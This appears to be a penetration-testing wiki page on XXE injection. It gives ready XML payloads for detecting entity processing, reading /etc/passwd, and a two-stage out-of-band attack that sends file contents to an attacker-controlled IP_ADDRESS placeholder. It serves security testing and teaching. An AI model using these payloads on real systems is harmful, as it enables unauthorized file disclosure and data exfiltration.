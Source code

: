```yaml
---
title: XML external entities (XXE)
tags:
  - web-app
  - pentesting
  - xml
  - injection
---
```


This section covers pwning XML parsers with XXE injection attacks. We can use XXE injection attacks
to uncover information disclosure, server-side request forgery (SSRF), remote command injection, and
remote code execution vulnerabilities in web applications.

## Testing for XXE

Here's an example for testing for XXE in an XML parser for a web application. If we're providing the
following input to a web application, and the internal entity `lastname` is used to render the
output for the `User` element, we know we can inject XML entities for the application to process:

```xml
<?xml version="1.0" ?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname "Hacker">
]>
<User>
  <lastName>&lastname;</lastName>
  <firstName>Victim</firstName>
</User>
```

### Retrieving files

After verifying the vulnerability, we can use it to conduct information disclosure, targeting
content on the host's file system:

```xml
<?xml version="1.0" ?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname SYSTEM "file:///etc/passwd">
]>
<User>
  <lastName>&lastname;</lastName>
  <firstName>Victim</firstName>
</User>
```

We determine where this content is rendered, and then we can retrieve the contents of the file from
the web application.

### Error-based exploitation

If the information we're targeting isn't rendered by the web application in a way we can access
after exploitation, we can use **error-based exploitation** to possibly disclose the information
we're targeting. For example, `lastname` might have a maximum character length for the web
application's database used to store `User`s. If we request a file on the host system with a size
that exceed this limit, it's likely the web application will provide us with an error, leaking the
contents of the file we're targeting.

### Out-of-band exploitation

We can also conduct SSRF, coercing the victim machine to attempt to load external resources from our
server, disclosing information when the victim executes a `GET` request. Here's an example of a
payload that causes the victim to request our XML file and parse it, causing the victim to request a
second stage payload that discloses the information we're targeting via a `GET` request.

First stage payload:

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE oob [
<!ENTITY % base SYSTEM "http://IP_ADDRESS/second-stage-payload.dtd">
%base;
%external;
%exfil;
]>
<entity-engine-xml>
</entity-engine-xml>
```

Second stage payload:

```xml
<!ENTITY % content SYSTEM "file:///etc/passwd">
<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://IP_ADDRESS/out?%content;'>" >
```

The first payload will request the second stage payload, which will attempt to acquire the contents
of the `/etc/passwd` file. Then the second stage payload will attempt to acquire a resource from our
web server, and we render the content of the file in the `URL` the victim is requesting. This SSRF
attack leaks the contents of the file when the `GET` request reaches our web server.

Due to how URLs are parsed, it's likely a portion of this request will fail. Unfortunately
**out-of-band exploitation** for XXE vulnerabilities is a last resort, and not always the most
effective approach.
